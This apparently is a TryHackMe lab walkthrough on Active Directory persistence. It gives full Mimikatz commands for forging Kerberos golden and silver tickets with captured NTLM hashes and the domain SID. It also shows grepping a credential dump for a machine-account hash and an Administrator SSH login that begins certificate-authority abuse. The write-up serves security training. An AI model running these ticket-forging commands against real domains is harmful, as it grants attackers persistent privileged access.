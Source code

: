 For this task we need to generate Golden and Silver Tickets. We need:

* the NTLM hash of the KRBTGT account (which we have from the earlier task)
* the NTLM hash associated with the THMSERVER1 machine account since we need this for the silver ticket (this information can be found in the dcdump file)

Log in over SSH with the low privilege user to gather the domain SID using the command:

```powershell
> Get-ADDomain
# S-1-5-21-3885271727-2693558621-2658995185
```

Start `Mimikatz` again and forge the tickets

```powershell
> C:\Tools\mimikatz_trunk\x64\mimikatz.exe
# golden ticket generation - syntax:
# kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /krbtgt:<NTLM hash of KRBTGT account> /endin:600 /renewmax:10080 /ptt
> kerberos::golden /admin:ReallyNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /krbtgt:16f9af38fca3ada405386b3b57366082 /endin:600 /renewmax:10080 /ptt
```

We can verify it by exiting `Mimikatz` and typing the command:

```powershell
dir \\thmdc.za.tryhackme.loc\c$\
```

Starting `Mimikatz` again, we can forge the Silver tickets with the commands:

```powershell
> C:\Tools\mimikatz_trunk\x64\mimikatz.exe
# silver ticket generation - syntax:
# kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:<Domain SID> /target:<Hostname of server being targeted> /rc4:<NTLM Hash of machine account of target> /service:cifs /ptt
> kerberos::golden /admin:StillNotALegitAccount /domain:za.tryhackme.loc /id:500 /sid:S-1-5-21-3885271727-2693558621-2658995185 /target:THMSERVER1 /rc4:43460d636f269c709b20049cee36ae7a /service:cifs /ptt
# can get the NTLM hash of the machine account of THMSERVER1 by searching the dump file
# cat christine.hall_dcdump.txt | grep "THMSERVER1" -C 10
```

### Task 4

**Note: The tasks from this point forward do not require actual exploitation of the system since they are highly intrusive and will require a domain rebuild to clear.** In addition, performing the attacks is not required for answering the questions.

Exploit the Certificate Authority (CA) to enable persistance through certificates.

We will use SSH to authenticate to `THMDC` using the Administrator credentials:

```bash
$ ssh za.tryhackme.loc\\Administrator@thmdc.za.tryhackme.loc
```
